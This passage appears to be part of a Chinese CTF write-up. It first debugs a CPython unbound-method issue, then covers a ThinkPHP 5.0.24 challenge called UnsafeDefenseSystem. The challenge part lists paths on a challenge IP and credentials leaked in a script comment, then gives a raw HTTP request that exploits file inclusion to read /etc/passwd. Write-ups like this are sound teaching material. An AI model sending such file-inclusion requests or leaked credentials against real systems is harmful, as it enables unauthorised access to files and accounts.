 

我们跟进python底层看看

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200708165243.png)



这里显示nargs显示只有1个参数，参看堆栈，跟踪到最开始的地方

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200708165459.png)

这里我们确实传入了self,其中v是`self`,w是`print(123)`

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200708165709.png)

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200708165753.png)



在`call_unbound`处我们发现了原因，是因为ubound==0

在`lookup_maybe_method`中设置了ubound的值

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200708170013.png)

`#define PyType_HasFeature(t,f)  (((t)->tp_flags & (f)) != 0)`

>The difference between bound and unbound is the value of the `.__self__` attribute (None when unbound). 



## UnsafeDefenseSystem

ThinkPHP V5.0.24

![](https://raw.githubusercontent.com/Explorersss/photo/master/SWI66DGX_8Z2Z%7E_%5DOS1M%60W9.jpg)

```
http://39.99.41.124/public/log.txt
http://39.99.41.124/public/test/
http://39.99.41.124/public/nationalsb/login.php


```
在http://39.99.41.124/public/nationalsb/js/script.js中发现账号密码：
```
    //username:Admin1964752
    //password:DsaPPPP!@#amspe1221
    //Secret **** is your birthday
```

文件包含:
```
POST /public/nationalsb/login.php HTTP/1.1
Host: 39.99.41.124
Authorization: Basic QWRtaW4xOTY0NzUyOkRzYVBQUFAhQCNhbXNwZTEyMjE=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

file=/etc/passwd
```
